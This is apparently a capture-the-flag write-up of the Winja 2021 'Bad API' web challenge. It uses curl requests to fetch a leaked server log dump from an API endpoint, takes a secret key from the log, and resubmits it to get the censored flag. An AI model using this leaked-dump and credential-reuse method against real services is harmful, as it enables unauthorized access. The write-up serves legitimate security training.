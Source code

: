Winja 2021 — Bad API — writeup

The challenge is a web page, with a username field.

http://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz

After trying with “admin”, we receive the message:

“Secret key provided is invalid. Please try again.”

Checking the Network tab on Chrome DevTools, it’s:

POST https://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz/form

username: admin
secret_key:
Mechanic: Somebody set up us the bomb. Operator: Main screen turn on.

So lets find this secret key, checking the console we can see that there is a recurring call to the endpoint

curl -X GET http://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz/api/v1/dump_status

The response to this request is:

“Log dump not ready”

after a few seconds it returned the message:

“Dump ready at endpoint (v1)”

So now we will try to find this dump, analyzing the status url we will try to do a get at the endpoint
curl -X GET http://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz/api/v1/dump

Analysing the response we can see some interesting information leaked:

…
views.py:44 — process_form()] ImmutableMultiDict([(‘username’, ‘SECRET’), (‘secret_key’, ‘S’)])
[views.py:56 — process_form()] Expected key ALLYOURBASEAREBELONGTOUS not recieved. Redirecting to 404…
[views.py:43 — process_form()] Request recieved:
[views.py:44 — process_form()] ImmutableMultiDict([(‘username’, ‘’), (‘secret_key’, ‘SECRET’)])
[views.py:43 — process_form()] Request recieved:
[views.py:44 — process_form()] ImmutableMultiDict([(‘username’, ‘admin’), (‘secret_key’, ‘\r\nMechanic: Somebody set up us the bomb. Operator: Main screen turn on.\r\n ‘)])
[views.py:56 — process_form()] Expected key (censored) not recieved. Redirecting to 404…
…

As we can see there are some logs related to secret_key and some secret tips that we can try to use, like ALLYOURBASEAREBELONGTOUS

curl -X POST -F “username=admin” -F “secret_key=ALLYOURBASEAREBELONGTOUS” http://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz/form

We got a redirect, so it’s a wrong secret_key, but we have another secret_key on the first log, (censored)

curl -X POST -F “username=admin” -F “secret_key=(censored)” http://hkqe8p4e8msopmz9ukjd.winjasmartcity.xyz/form

Now we got an HTML response, with the flag!!

...
</form>
flag\{(censored)\}
</div>
...

Keep Hacking!

#KapiSec